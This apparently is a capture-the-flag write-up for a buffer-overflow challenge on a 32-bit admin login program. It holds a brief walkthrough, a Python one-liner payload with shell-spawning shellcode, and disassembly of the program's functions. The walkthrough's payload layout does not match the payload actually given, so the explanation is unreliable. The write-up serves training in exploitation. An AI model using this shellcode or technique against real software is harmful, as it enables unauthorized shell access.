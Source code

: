 # Level 01

## Vulnerability type:

Buffer Overflow

## Walkthrough:

The program takes user input for username and password.
Two buffer overflow vulnerabilities exist: one for each fgets call.
The second overflow is critical, allowing us to overwrite the return address.
Trigger the overflow after entering the correct username ("dat_wil").
Exploit by redirecting execution to a jmp esp gadget in the libc.
Use a payload structure: [SHELLCODE (28 bytes)] + ['B' * 52] + [JMP ESP gadget addr] + [SUB ESP,0x54; JMP ESP].
Manually exploit the program or automate it using Python and pwn library.

## Payload:

Contains shellcode for spawning a shell.
Padding, jmp esp gadget address, and stack pointer adjustment instructions are included.

```
python -c 'print "dat_wil" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\n" + "A" * 80 + "\x47\xa0\x04\x08"' > /tmp/payload1

```

## Assembly code

### main

```
   0x080484d0 <+0>:	push   ebp
   0x080484d1 <+1>:	mov    ebp,esp
   0x080484d3 <+3>:	push   edi
   0x080484d4 <+4>:	push   ebx
   0x080484d5 <+5>:	and    esp,0xfffffff0
   0x080484d8 <+8>:	sub    esp,0x60
   0x080484db <+11>:	lea    ebx,[esp+0x1c]
   0x080484df <+15>:	mov    eax,0x0
   0x080484e4 <+20>:	mov    edx,0x10
   0x080484e9 <+25>:	mov    edi,ebx
   0x080484eb <+27>:	mov    ecx,edx
   0x080484ed <+29>:	rep stos DWORD PTR es:[edi],eax
   0x080484ef <+31>:	mov    DWORD PTR [esp+0x5c],0x0
   0x080484f7 <+39>:	mov    DWORD PTR [esp],0x80486b8 => "********* ADMIN LOGIN PROMPT *********"
   0x080484fe <+46>:	call   0x8048380 <puts@plt>
   0x08048503 <+51>:	mov    eax,0x80486df => "Enter Username: "
   0x08048508 <+56>:	mov    DWORD PTR [esp],eax
   0x0804850b <+59>:	call   0x8048360 <printf@plt>
   0x08048510 <+64>:	mov    eax,ds:0x804a020
   0x08048515 <+69>:	mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:	mov    DWORD PTR [esp+0x4],0x100
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>
   0x0804852d <+93>:	call   0x8048464 <verify_user_name>
   0x08048532 <+98>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048536 <+102>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804853b <+107>:	je     0x8048550 <main+128>
   0x0804853d <+109>:	mov    DWORD PTR [esp],0x80486f0 => "nope, incorrect username...\n"
   0x08048544 <+116>:	call   0x8048380 <puts@plt>
   0x08048549 <+121>:	mov    eax,0x1
   0x0804854e <+126>:	jmp    0x80485af <main+223>
   0x08048550 <+128>:	mov    DWORD PTR [esp],0x804870d => "Enter Password: "
   0x08048557 <+135>:	call   0x8048380 <puts@plt>
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
   0x08048585 <+181>:	mov    DWORD PTR [esp+0x5c],eax
   0x08048589 <+185>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:	je     0x8048597 <main+199>
   0x08048590 <+192>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:	je     0x80485aa <main+218>
   0x08048597 <+199>:	mov    DWORD PTR [esp],0x804871e => "nope, incorrect password...\n"
   0x0804859e <+206>:	call   0x8048380 <puts@plt>
   0x080485a3 <+211>:	mov    eax,0x1
   0x080485a8 <+216>:	jmp    0x80485af <main+223>
   0x080485aa <+218>:	mov    eax,0x0
   0x080485af <+223>:	lea    esp,[ebp-0x8]
   0x080485b2 <+226>:	pop    ebx
   0x080485b3 <+227>:	pop    edi
   0x080485b4 <+228>:	pop    ebp
   0x080485b5 <+229>:	ret
```

### verify_user_name

```
   0x08048464 <+0>:	push   ebp
   0x08048465 <+1>:	mov    ebp,esp
   0x08048467 <+3>:	push   edi
   0x08048468 <+4>:	push   esi
   0x08048469 <+5>:	sub    esp,0x10
   0x0804846c <+8>:	mov    DWORD PTR [esp],0x8048690 => "verifying username....\n"
   0x08048473 <+15>:	call   0x8048380 <puts@plt>
   0x08048478 <+20>:	mov    edx,0x804a040
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804848d <+41>:	seta   dl
   0x08048490 <+44>:	setb   al
   0x08048493 <+47>:	mov    ecx,edx
   0x08048495 <+49>:	sub    cl,al
   0x08048497 <+51>:	mov    eax,ecx
   0x08048499 <+53>:	movsx  eax,al
   0x0804849c <+56>:	add    esp,0x10
   0x0804849f <+59>:	pop    esi
   0x080484a0 <+60>:	pop    edi
   0x080484a1 <+61>:	pop    ebp
   0x080484a2 <+62>:	ret
```

### verify_user_pass

```
   0x080484a3 <+0>:	push   ebp
   0x080484a4 <+1>:	mov    ebp,esp
   0x080484a6 <+3>:	push   edi
   0x080484a7 <+4>:	push   esi
   0x080484a8 <+5>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:	mov    edx,eax
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080484bd <+26>:	seta   dl
   0x080484c0 <+29>:	setb   al
   0x080484c3 <+32>:	mov    ecx,edx
   0x080484c5 <+34>:	sub    cl,al
   0x080484c7 <+36>:	mov    eax,ecx
   0x080484c9 <+38>:	movsx  eax,al
   0x080484cc <+41>:	pop    esi
   0x080484cd <+42>:	pop    edi
   0x080484ce <+43>:	pop    ebp
   0x080484cf <+44>:	ret
```
